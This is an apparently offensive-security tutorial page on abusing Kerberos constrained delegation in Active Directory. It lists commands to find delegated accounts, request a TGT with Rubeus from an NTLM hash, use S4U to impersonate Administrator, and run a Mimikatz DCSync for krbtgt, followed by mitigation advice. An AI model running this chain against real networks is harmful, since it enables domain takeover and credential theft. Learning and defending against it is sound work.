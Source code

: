 # Kerberos Constrained Delegation

### User Account <a href="#user-account" id="user-account"></a>

#### Prerequisites <a href="#prerequisites" id="prerequisites"></a>

Hunting for user accounts that have kerberos-constrained delegation enabled:

{% code title="" %}
```bash
Get-NetUser -TrustedToAuth
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```
{% endcode %}

In the below screenshot, the user `spot` is allowed to delegate or in other words, impersonate any user and authenticate to a file system service (CIFS) on a domain controller DC01.

User has to have an attribute `TRUSTED_TO_AUTH_FOR_DELEGATION` in order for it to be able to authenticate to the remote service.

> TRUSTED\_TO\_AUTH\_FOR\_DELEGATION - (Windows 2000/Windows Server 2003) The account is enabled for delegation. This is a security-sensitive setting. Accounts that have this option enabled should be tightly controlled. This setting lets a service that runs under the account assume a client's identity and authenticate as that user to other remote servers on the network.
>
> [https://support.microsoft.com/en-gb/help/305144/how-to-use-useraccountcontrol-to-manipulate-user-account-properties](https://support.microsoft.com/en-gb/help/305144/how-to-use-useraccountcontrol-to-manipulate-user-account-properties)
>
>

<figure><img src="../../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
rubeus.exe asktgt /user:userName /domain:DomainName /ntlm:Hash /outfile:FileName.tgt
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (22).png" alt=""><figcaption><p>TGT ticket for the websvc account.</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
.\Rubeus.exe s4u /ticket:TGT_Ticket /msdsspn:"service/HOST" /impersonateuser:Administrator /ptt
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

```bison
invoke-Mimikatz -command '"lsadump::dcsync /user:abdo\krbtgt "'
```

<figure><img src="../../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

## Mitigation <a href="#id-660b" id="id-660b"></a>

* To mitigate against the abuse of delegated accounts, we can ensure that the privileged accounts are configured to “_Account is sensitive and cannot be delegated”_ within the Active Directory or added to the Protected User group to prevent delegation.
* If delegation is needed for specific accounts, they should be secured with firewall rules that only serve the purpose and delegation to the required service and limit any other privileged access that might not be necessary.
* Also, ensure the delegated accounts use strong passwords to protect them against attacks like Kerberoasting.

## 📚**$\_References** <a href="#id-6572" id="id-6572"></a>

{% embed url="https://docs.microsoft.com/en-us/windows-server/security/kerberos/kerberos-constrained-delegation-overview?source=post_page-----4a0eddc5bb13--------------------------------" %}

{% embed url="https://stealthbits.com/blog/what-is-kerberos-delegation-an-overview-of-kerberos-delegation/?source=post_page-----4a0eddc5bb13--------------------------------" %}

{% embed url="https://www.cyberark.com/resources/threat-research-blog/weakness-within-kerberos-delegation?source=post_page-----4a0eddc5bb13--------------------------------" %}
